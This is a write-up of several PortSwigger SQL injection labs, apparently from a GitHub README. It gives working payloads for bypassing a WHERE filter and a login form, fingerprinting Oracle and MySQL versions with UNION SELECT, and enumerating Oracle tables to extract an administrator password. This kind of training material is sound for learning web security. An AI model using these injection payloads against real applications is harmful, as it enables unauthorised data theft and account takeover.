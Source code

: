 # SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## Lab Description
![image](Picture/lab1.png)

The query used by the application is provided in the lab description:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This query retrieves information from the `products` table, specifically selecting products that belong to the `Gifts` category and have the condition `released = 1`, meaning the products have been released.

To see all products, we need to make this condition always `TRUE`:
```sql
Gifts' OR 1=1--
```
The condition `1=1` is always true, and `--` is used to start a comment in SQL, so everything after it is ignored.

# SQL Injection Vulnerability Allowing Login Bypass

## Lab Description
![image](Picture/lab2.png)

The query used in the lab might look something like this:
```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```
To bypass the `AND password = 'password'` condition, I inject into the username field using `--`:

```sql
WHERE username = 'administrator' --
```

This will result in a query like:
```sql
SELECT * FROM users WHERE username = 'administrator' -- ' AND password = '<PASSWORD>'
```
![image](Picture/loginbypass.png)

The final query becomes:
```sql
SELECT * FROM users WHERE username = 'administrator';
```

# SQL Injection Attack: Querying the Database Type and Version on Oracle

## Lab Description
![image](Picture/lab3.png)

In Oracle, every `SELECT` statement must specify a table to select `FROM`. There is a table in Oracle that can be used for this purpose called `dual`.

There are two different methods to query the database version on Oracle:
- `SELECT banner FROM v$version`
- `SELECT version FROM v$instance`

To solve the lab, follow these steps to find the columns containing strings:

- First, determine the number of columns by injecting `' ORDER BY 1--`. Here, 1 is the column number. Continue increasing until an error occurs, which indicates the correct number of columns. For example, the result indicates there are 2 columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' ORDER BY 2--
  ```
- Next, check which columns contain strings by injecting `' UNION SELECT 'a','a' FROM DUAL--`. Both columns should be string columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' UNION SELECT 'a','a' FROM DUAL--
  ```
- Finally, to obtain the version information, inject `' UNION SELECT 'a', banner FROM v$version--`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', banner FROM v$version--'
  ```

# SQL Injection Attack: Querying the Database Type and Version on MySQL and Microsoft

## Lab Description
![image](Picture/lab4.png)

The steps in this lab are almost identical to the lab [SQL Injection Attack: Querying the Database Type and Version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle).

The main difference is that in MySQL, comments can be started with `#`.

To query the database version:
- Inject `' UNION SELECT 'a', @@version#`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', @@version#'
  ```

# SQL Injection Attack: Listing the Database Contents on Oracle

## Lab Description
![image](Picture/lab5.png)

The database in use here is Oracle, with information for all tables stored in the `ALL_TABLES` view.

In this [document](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html), I am interested in the `table_name` column. So, I inject `' UNION SELECT table_name, null FROM all_tables--` and I see the table `USERS_XJIAWY`.

Steps:

- The [ALL_TAB_COLUMNS](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TAB_COLUMNS.html#GUID-F218205C-7D76-4A83-8691-BFD2AD372B63) view holds information about the columns of the tables, specifically the `column_name` column. Inject `' UNION SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_XJIAWY'--`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_XJIAWY'--
  ```
  I found the columns `USERNAME_HDFLSL` and `PASSWORD_VASGBS`.
- Next, use `' UNION SELECT USERNAME_HDFLSL, PASSWORD_VASGBS FROM USERS_XJIAWY--`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT USERNAME_HDFLSL, PASSWORD_VASGBS FROM USERS_XJIAWY--
  ```
  I found that the password for the `administrator` is `2ozd1e4np7yp6wc47rx3`.

- The last step is login to solve this lab.

